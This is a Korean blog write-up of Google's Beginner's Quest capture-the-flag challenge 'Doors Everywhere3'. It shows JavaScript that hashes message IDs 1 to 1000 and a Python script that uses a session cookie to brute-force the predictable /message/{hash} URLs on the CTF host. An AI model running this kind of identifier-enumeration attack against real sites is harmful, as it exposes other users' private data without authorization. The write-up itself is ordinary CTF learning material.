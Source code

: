```yaml
---
layout: post
title: "Doors Everywhere3"
image: GR1.png
date: 2025-07-10 14:55:00 +0900
tags: [web, hacking, google]
categories: web
---
```


Google Beginner's Request

Doors Everywhere3

***

**Google Beginner's Request - Doors Everywhere3**

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/1.png)

Doors Everywhere3
`Secret messages! Probably the most secure part of this website. There's no way to guess those URLs. ...Unless?`
비밀 메세지를 볼 수 없다고 설명하고 있다.

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/2.png)

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/3.png)


로그인 뒤 비밀 메세지 안에 개발자 도구를 확인하니
generateHash를 통해 비밀 ID를 해시값으로 변경 후 
그 값으로 Secret ID를 생성 하는 로직이며,
Secret ID를 Path로 입력 시 그 메세지를 확인할 수 있는 로직이다.

개발자 도구의 주석에서 뭐라고 적혀있긴 한데
번역기를 돌려놔서 그런지 잘 모르겠다;;

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/4.png)

어쨌든 generateHash에 들어가는 value값을 변경 시
Secret ID에 원하는 값이 나온다.

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/5.png)

1의 값을 generateHash로 변경 후 path에 입력 시
비밀 메세지의 예시가 나온다.

# 따라서

1~1000까지의 값들을 Hash로 변경 후
path에 대입하면 값이 나올 것이다.

***

1. 1~1000까지의 해시값 얻기

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/6.png)

1~1000까지의 값을 콘솔로 얻어낸다.

사용한 코드

{% highlight js %}
function generateHash(messageId) {
    const hashHex = sha3_256(messageId.toString());
    console.log(`ID: ${messageId} → Hash: ${hashHex}`);
}

// 1부터 1000까지 해시 생성
for (let i = 1; i <= 1000; i++) {
    generateHash(i);
}
{% endhighlight %}

2. python을 통해 값 얻어내기

얻어낸 1~1000까지의 값을 대입하여 본다.

존재하지 않는 값을 기준으로 잡고,
그 값의 text 길이와 동일하지 않다면 값을 출력하는 로직이다.

{% highlight js %}
import requests
import time
cookies = {
    'session': '[세션값]',
}
import warnings
warnings.filterwarnings('ignore')
headers = {
    'Host': 'secuweb-web.2024-bq.ctfcompetition.com',
    'Sec-Ch-Ua': '"Not)A;Brand";v="8", "Chromium";v="138", "Google Chrome";v="138"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Sec-Fetch-Site': 'none',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    # 'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7',
    'Priority': 'u=0, i',
    # 'Cookie': 'session=.[세션값]',
}

a=["67b176705b46206614219f47a05aee7ae6a3edbe850bbbe214c536b989aea4d2",
"b1b1bd1ed240b1496c81ccf19ceccf2af6fd24fac10ae42023628abbe2687310",
...
"006e9d54d7ebe3029abf15866b51294ce3defb2bc2c27762570819f0959b250499"]

OriginResponse = requests.get(
    f'https://secuweb-web.2024-bq.ctfcompetition.com/message/1666',
    cookies=cookies,
    headers=headers,
    verify=False,
)

count = 0
for i in a:
    count+=1
    response = requests.get(
        f'https://secuweb-web.2024-bq.ctfcompetition.com/message/{i}',
        cookies=cookies,
        headers=headers,
        verify=False,
    )
    if len(OriginResponse.text) != len(response.text):
        print(response.text)
        print(count)
        print(i)

{% endhighlight %}

하다보면 이렇게 손으로 하는 건 아닌지 걱정도 해주고

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/7.png)

레고 세트 교환식도 한다.

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/8.png)

![]({{site.baseurl}}/images/GoogleRequest/DoorsEverywhere3/9.png)

여튼 Flag 획득

**시행착오**

1. PHP 내에 있는 기능을 python으로 옮겨오기가 힘들었다.